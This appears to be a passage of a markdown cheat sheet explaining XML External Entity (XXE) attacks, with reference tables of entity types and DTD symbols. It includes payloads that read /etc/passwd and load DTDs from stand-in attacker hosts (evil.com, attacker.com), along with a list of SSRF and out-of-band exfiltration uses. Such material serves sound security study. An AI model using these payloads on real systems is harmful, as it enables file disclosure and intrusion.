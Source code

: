 ```xml
<!DOCTYPE data [
  <!ENTITY ext SYSTEM "file:///etc/passwd">
]>
<info>&ext;</info>
```

### Example: External DTD loading remote data

```xml
<!DOCTYPE data [
  <!ENTITY ext SYSTEM "http://evil.com/malicious.dtd">
]>
<info>&ext;</info>
```

---

## ⚔️ Common Exploits

* Read server files:
  `file:///etc/passwd`, `file:///c:/windows/win.ini`
* SSRF:
  `http://localhost:8000/admin`
* Blind XXE with OOB exfiltration:
  Trigger DNS or HTTP request to attacker-controlled server

---

## 🧾 All XML Entity Types with Symbols

| Entity Type                   | Declaration Syntax                                       | Usage Symbol / Call        | Description                                                           |
| ----------------------------- | -------------------------------------------------------- | -------------------------- | --------------------------------------------------------------------- |
| **Internal Entity**           | `<!ENTITY name "value">`                                 | `&name;`                   | Stores simple static data locally in the DTD.                         |
| **External Entity**           | `<!ENTITY name SYSTEM "URI">`                            | `&name;`                   | Fetches content from external file or URL (e.g., file:///etc/passwd). |
| **Parameter Entity**          | `<!ENTITY % name SYSTEM "URI">`                          | `%name;` (within DTD only) | Used **inside DTD** only. Useful for **Blind XXE**, nested DTDs.      |
| **Predefined Entity**         | *(Built-in)*                                             | `&lt;`, `&gt;`, `&amp;`    | Escapes characters like `<`, `>`, `&`, `"`, `'`.                      |
| **Numeric Entity**            | *(Built-in)*                                             | `&#x20;`, `&#65;`          | Represents characters by ASCII/Unicode code points.                   |
| **General Entity**            | *(Category)*                                             | `&name;`                   | Refers to both internal and external entities.                        |
| **External Parameter Entity** | `<!ENTITY % name SYSTEM "http://attacker.com/file.dtd">` | `%name;`                   | Declares remote parameter entity for advanced chaining.               |

---

## 🔣 Summary of Symbols

| Symbol     | Meaning / Usage                   | Where Used         |
| ---------- | --------------------------------- | ------------------ |
| `<!ENTITY` | Starts entity declaration         | DTD                |
| `SYSTEM`   | Loads entity from a URI           | DTD                |
| `%`        | Indicates a **parameter entity**  | DTD (not XML body) |
| `&name;`   | Calls a **general entity**        | In XML data        |
| `%name;`   | Calls a **parameter entity**      | Inside DTD only    |
| `&#...;`   | Numeric (ASCII or Unicode) entity | In XML body        |

---